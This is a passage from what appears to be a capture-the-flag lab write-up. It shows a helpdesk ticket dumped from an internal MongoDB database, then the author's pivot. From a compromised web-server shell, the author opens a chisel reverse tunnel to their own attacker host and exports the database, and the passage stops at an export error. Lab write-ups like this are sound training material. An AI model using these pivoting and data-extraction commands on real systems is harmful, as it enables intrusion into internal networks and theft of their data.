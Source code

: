 ```
{ "_id" : ObjectId("62478d83eadb13001b66b62c"), "deleted" : false, "status" : 0, "tags" : [ ], "subscribers" : [ ObjectId("6243c28f1e0d4d001b0740d6"), ObjectId("6243c0be1e0d4d001b0740d4") ], "subject" : "Need help building the CMS", "group" : ObjectId("6244610ff2c8c07f687ba8a4"), "type" : ObjectId("623c8b20855cc5001a8ba137"), "priority" : ObjectId("623c8b24645f88065a113d67"), "issue" : "<p>Hey Jeremy, <br />Can you help me work on the CMS at all this week?  The base install is completed, but I need your expertise to make sure I did everything correctly.</p>\n", "date" : ISODate("2022-04-01T23:40:51.552Z"), "comments" : [ { "deleted" : false, "_id" : ObjectId("62478e3a608eea1532bcd1b9"), "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:43:54.776Z"), "comment" : "<p>Please don&#39;t expose that application publically.  I told you I would help when I had time and right now I&#39;m just too busy.<br>Build it out if you&#39;d like, but...just don&#39;t do anything stupid.</p>\n" }, { "deleted" : false, "_id" : ObjectId("624f49ca8576ce001bb6702e"), "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:30:02.359Z"), "comment" : "<p>Don&#39;t worry. I moved it off of the main server and into a container with SSL encryption.</p>\n" } ], "notes" : [ ], "attachments" : [ ], "history" : [ { "_id" : ObjectId("62478d83eadb13001b66b62d"), "action" : "ticket:created", "description" : "Ticket was created.", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:40:51.573Z") }, { "_id" : ObjectId("62478d94608eea1532bcd1b8"), "action" : "ticket:set:assignee", "description" : "Jeremy Hammond was set as assignee", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:41:08.431Z") }, { "_id" : ObjectId("62478e3a608eea1532bcd1ba"), "action" : "ticket:comment:added", "description" : "Comment was added", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-01T23:43:54.787Z") }, { "_id" : ObjectId("624f49ca8576ce001bb6702f"), "action" : "ticket:comment:added", "description" : "Comment was added", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:30:02.380Z") }, { "_id" : ObjectId("624f4a828576ce001bb67031"), "action" : "ticket:comment:updated", "description" : "Comment was updated: 624f49ca8576ce001bb6702e", "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "date" : ISODate("2022-04-07T20:33:06.175Z") } ], "owner" : ObjectId("6243c28f1e0d4d001b0740d6"), "uid" : 1008, "__v" : 4, "assignee" : ObjectId("6243c0be1e0d4d001b0740d4"), "updated" : ISODate("2022-04-07T20:30:02.374Z") }

```

The tickets are a bit of a pain to read directly from Mongo. For one, it’s all jammed on the screen. But also all the foreign objects are shown like `"owner" : ObjectId("623c8b20855cc5001a8ba13c")`, which means I can’t even copy this and pipe it to `jq` on my own system because these things aren’t valid JSON.

I’ll use `mongoexport` to get the results as pure JSON (and it fills out the pointers as well). I had some issues getting it to work over `proxychains`, so I’ll start another tunnel with `chisel`:

```

www-data@3c371615b7aa:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.14.6:8000 R:27017:172.17.0.4:27017
2022/11/28 21:59:41 client: Connecting to ws://10.10.14.6:8000
2022/11/28 21:59:42 client: Connected (Latency 87.048435ms)

```

Now 27017 on my host forwards to 172.17.0.4:27017.

My initial run errors out:

```

oxdf@hacky$ mongoexport --host="127.0.0.1:27017" --db=trudesk --collection=tickets --out=tickets.json
2022-11-28T22:11:42.292+0000    connected to: 127.0.0.1:27017
2022-11-28T22:11:42.380+0000    Failed: BSON field 'FindCommandRequest.snapshot' is an unknown field.

```
